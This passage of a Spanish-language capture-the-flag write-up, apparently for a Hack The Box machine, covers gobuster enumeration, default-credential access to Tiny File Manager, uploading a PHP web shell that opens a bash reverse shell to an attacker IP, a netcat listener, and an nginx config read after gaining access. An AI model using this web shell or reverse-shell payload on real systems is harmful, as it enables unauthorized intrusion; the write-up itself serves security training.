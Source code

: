 Usando la herramienta "gobuster" descubrimos que tiene un subdirectorio llamado "tiny"

![image](https://user-images.githubusercontent.com/109216235/208491633-e084a3e6-4f79-429d-863f-116fc812e1f3.png)

# [](#header-1) Vulnerabilidad

Buscamos sobre "Tiny File Manager" y descubrimos que tiene un github con las credenciales por defecto (https://github.com/prasathmani/tinyfilemanager/blob/master/tinyfilemanager.php)

Mirando por la página vemos que podemos subir archivos en la carpeta ```/tiny```. Nos preparamos una cmd en php y la subimos a la página

```php

<?php

system("bash -c 'bash -i >& /dev/tcp/10.10.16.72/4444 0>&1'")

?>

```

Subimos este archivo, activamos netcat con el puerto ```nc -lnvp 4444``` que hayamos puesto en el script anterior y lo ejecutamos añadiendo /uploads/cmd.php a la url. Así conseguimos una revershell de www-data

Investigando el interior de la plataforma, encontramos en la carpeta ```/etc/nginx/sites-available``` donde esta el archivo soc-player.htb

```javascript

cat soc-player.htb

server {

listen 80;

listen [::]:80;

server_name soc-player.soccer.htb;

root /root/app/views;

location / {

proxy_pass http://localhost:3000;

proxy_http_version 1.1;

proxy_set_header Upgrade $http_upgrade;

proxy_set_header Connection 'upgrade';

proxy_set_header Host $host;

proxy_cache_bypass $http_upgrade;

}

}

```
